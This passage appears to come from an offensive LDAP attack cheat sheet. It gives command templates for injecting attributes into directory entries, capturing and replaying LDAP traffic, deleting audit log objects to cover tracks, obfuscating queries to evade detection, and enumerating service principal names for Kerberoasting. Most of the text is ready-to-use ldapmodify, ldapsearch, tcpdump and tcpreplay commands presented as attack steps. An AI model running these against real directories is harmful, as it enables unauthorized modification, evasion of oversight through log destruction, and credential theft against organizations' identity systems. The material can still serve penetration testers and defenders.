 #### 7.2 LDAP Attribute Injection
- **Inject Attributes via LDAP**: Injects custom attributes into an LDAP entry, in this case adding a `description` attribute with a message, potentially altering directory information in a stealthy manner.
  ```b
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  add: description
  description: Hacked by Attacker
  EOF
  ```

#### 7.3 LDAP Replay Attack
- **Capture and Replay LDAP Traffic**: First captures LDAP traffic with `tcpdump`, then replays the captured traffic with `tcpreplay`, potentially exploiting replayable authentication or session traffic.
  ```bash
  tcpdump -i <interface> -w ldap_traffic.pcap 'tcp port 389'
  tcpreplay --loop=0 --intf1=<interface> ldap_traffic.pcap
  ```

## 8. Defense Evasion via LDAP

#### 8.1 Clearing LDAP Audit Logs
- **Delete LDAP Audit Logs**: Attempts to delete or clear LDAP audit logs to cover tracks, though this action is typically restricted to high-privileged accounts.
  ```b
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=AuditLogs,CN=System,DC=domain,DC=com
  changetype: delete
  EOF
  ```
 
#### 8.2 Obfuscating LDAP Queries
- **Obfuscated LDAP Search**: Uses obfuscation techniques in LDAP queries to hide the true intent of the search, such as by using compound filters that may bypass simple detection mechanisms.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(&(objectClass=user)(|(userPassword=*)))"
  ```

## 9. Advanced LDAP Reconnaissance Techniques

#### 9.1 Extracting Service Principal Names (SPNs)
- **Enumerate SPNs**: Extracts `servicePrincipalName` attributes from the directory, which are essential for Kerberoasting attacks. SPNs are associated with service accounts and can be targeted to extract service tickets.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(servicePrincipalName=*)" servicePrincipalName
  ```
